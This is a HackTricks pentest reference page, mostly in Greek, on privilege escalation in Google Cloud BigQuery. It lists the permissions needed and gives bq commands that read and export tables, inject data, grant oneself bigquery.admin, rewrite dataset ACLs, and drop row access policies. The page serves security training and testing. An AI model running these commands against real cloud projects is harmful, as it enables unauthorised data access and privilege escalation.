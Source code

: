 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

Για περισσότερες πληροφορίες σχετικά με το BigQuery, ελέγξτε:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

Διαβάζοντας τις πληροφορίες που είναι αποθηκευμένες μέσα σε έναν πίνακα BigQuery, μπορεί να είναι δυνατό να βρείτε **ευαίσθητες πληροφορίες**. Για να αποκτήσετε πρόσβαση στις πληροφορίες, οι άδειες που απαιτούνται είναι **`bigquery.tables.get`**, **`bigquery.jobs.create`** και **`bigquery.tables.getData`**:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Export data

Αυτή είναι μια άλλη μέθοδος για να αποκτήσετε πρόσβαση στα δεδομένα. **Εξάγετε το σε ένα cloud storage bucket** και **κατεβάστε τα αρχεία** με τις πληροφορίες.\
Για να εκτελέσετε αυτήν την ενέργεια απαιτούνται οι εξής άδειες: **`bigquery.tables.export`**, **`bigquery.jobs.create`** και **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Εισαγωγή δεδομένων

Μπορεί να είναι δυνατό να **εισαγάγετε ορισμένα αξιόπιστα δεδομένα** σε έναν πίνακα Bigquery για να εκμεταλλευτείτε μια **ευπάθεια σε κάποιο άλλο σημείο.** Αυτό μπορεί να γίνει εύκολα με τα δικαιώματα **`bigquery.tables.get`** , **`bigquery.tables.updateData`** και **`bigquery.jobs.create`**:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό το προνόμιο για να **δώσει στον εαυτό του επιπλέον δικαιώματα** πάνω σε ένα σύνολο δεδομένων BigQuery:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Αυτή η άδεια επιτρέπει να **ενημερώσετε την πρόσβασή σας σε ένα BigQuery dataset τροποποιώντας τα ACLs** που υποδεικνύουν ποιος μπορεί να έχει πρόσβαση σε αυτό:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό το προνόμιο για να **δώσει στον εαυτό του επιπλέον δικαιώματα** πάνω σε έναν πίνακα BigQuery:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

Σύμφωνα με την τεκμηρίωση, με τις αναφερόμενες άδειες είναι δυνατή η **ενημέρωση μιας πολιτικής γραμμής.**\
Ωστόσο, **χρησιμοποιώντας το cli `bq`** χρειάζεστε μερικά ακόμη: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

Είναι δυνατόν να βρείτε το ID φίλτρου στην έξοδο της καταμέτρησης πολιτικών γραμμής. Παράδειγμα:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
Αν έχετε **`bigquery.rowAccessPolicies.delete`** αντί για `bigquery.rowAccessPolicies.update`, μπορείτε επίσης απλά να διαγράψετε την πολιτική:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
Μια άλλη πιθανή επιλογή για να παρακάμψετε τις πολιτικές πρόσβασης γραμμών θα ήταν να αλλάξετε απλώς την τιμή των περιορισμένων δεδομένων. Εάν μπορείτε να δείτε μόνο όταν `term` είναι `Cfba`, απλώς τροποποιήστε όλα τα αρχεία του πίνακα ώστε να έχουν `term = "Cfba"`. Ωστόσο, αυτό αποτρέπεται από το bigquery.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
